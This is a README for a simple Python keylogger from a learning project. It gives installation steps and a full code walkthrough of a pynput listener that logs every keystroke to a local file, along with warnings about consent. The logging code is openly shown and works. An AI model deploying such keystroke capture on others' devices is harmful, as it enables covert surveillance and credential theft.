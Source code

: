 # PRODIGY_TrackCode_4

# Simple Keylogger

This is a basic Python keylogger that records and logs keystrokes to a file. **Use this program ethically and ensure you have explicit permission from the user or the owner of the device before running it.**

## Installation

1. Clone the repository to your local machine.

    ```bash
    git clone https://github.com/Saicharanpadarthi/simple-keylogger.git
    cd simple-keylogger
    ```

2. Install the required library.

    ```bash
    pip install pynput
    ```

## Usage

1. Run the script.

    ```bash
    python keylogger.py
    ```

2. The keylogger will start recording keystrokes and save them to `keylog.txt` in the same directory.

3. Press the `Esc` key to stop the keylogger.

## Code Explanation

The provided script uses the `pynput` library to listen to keyboard events. Here's a brief overview of how it works:

- **Importing pynput:** The script starts by importing the necessary module from `pynput`.

    ```python
    import pynput.keyboard
    ```

- **Global Log Variable:** A global variable `log` is used to store the keystrokes.

    ```python
    log = ""
    ```

- **Processing Key Presses:** The `process_key_press` function appends the keystrokes to the log. It handles both character keys and special keys (like space and other non-character keys).

    ```python
    def process_key_press(key):
        global log
        try:
            log = log + str(key.char)
        except AttributeError:
            if key == pynput.keyboard.Key.space:
                log = log + " "
            else:
                log = log + " " + str(key) + " "
        print(log)
        with open("keylog.txt", "a") as f:
            f.write(log)
    ```

- **Stopping the Keylogger:** The `process_key_release` function stops the keylogger when the `Esc` key is pressed.

    ```python
    def process_key_release(key):
        if key == pynput.keyboard.Key.esc:
            return False
    ```

- **Listener Setup:** The script sets up the keyboard listener and starts it.

    ```python
    keyboard_listener = pynput.keyboard.Listener(on_press=process_key_press, on_release=process_key_release)
    with keyboard_listener:
        keyboard_listener.join()
    ```

## Ethical Considerations

Keylogging can be considered illegal or unethical if done without proper consent. Always ensure you have explicit permission from the user or the owner of the device before running any keylogging software. Use this program responsibly.

